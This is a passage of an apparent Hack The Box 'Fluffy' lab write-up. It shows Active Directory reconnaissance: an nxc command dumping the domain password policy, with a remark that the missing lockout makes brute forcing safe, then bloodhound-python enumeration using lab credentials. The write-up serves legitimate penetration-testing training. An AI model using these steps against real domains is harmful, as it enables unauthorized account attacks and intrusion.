 The password policy showed that there was no account lockout configured.  So, on-line brute forcing and other password discovery techniques could be used without fear of locking domain accounts.

```
fcoomans@kali:~/htb/fluffy$ nxc smb fluffy.htb -u j.fleischman -p J0elTHEM4n1990! --pass-pol
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB         10.10.11.69     445    DC01             [+] Dumping password info for domain: FLUFFY
SMB         10.10.11.69     445    DC01             Minimum password length: 7
SMB         10.10.11.69     445    DC01             Password history length: 24
SMB         10.10.11.69     445    DC01             Maximum password age: 41 days 23 hours 53 minutes
SMB         10.10.11.69     445    DC01
SMB         10.10.11.69     445    DC01             Password Complexity Flags: 000000
SMB         10.10.11.69     445    DC01                 Domain Refuse Password Change: 0
SMB         10.10.11.69     445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.11.69     445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.11.69     445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.11.69     445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.11.69     445    DC01                 Domain Password Complex: 0
SMB         10.10.11.69     445    DC01
SMB         10.10.11.69     445    DC01             Minimum password age: 1 day 4 minutes
SMB         10.10.11.69     445    DC01             Reset Account Lockout Counter: 10 minutes
SMB         10.10.11.69     445    DC01             Locked Account Duration: 10 minutes
SMB         10.10.11.69     445    DC01             Account Lockout Threshold: None
SMB         10.10.11.69     445    DC01             Forced Log off Time: Not Set
```

The `bloodhound-python` collector was run and the results imported into BloodHound.

```
fcoomans@kali:~/htb/fluffy$ bloodhound-python --zip -ns 10.10.11.69 -d fluffy.htb -c All --dns-tcp -u j.fleischman -p J0elTHEM4n1990!
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 32S
INFO: Compressing output into 20250715161919_bloodhound.zip
```
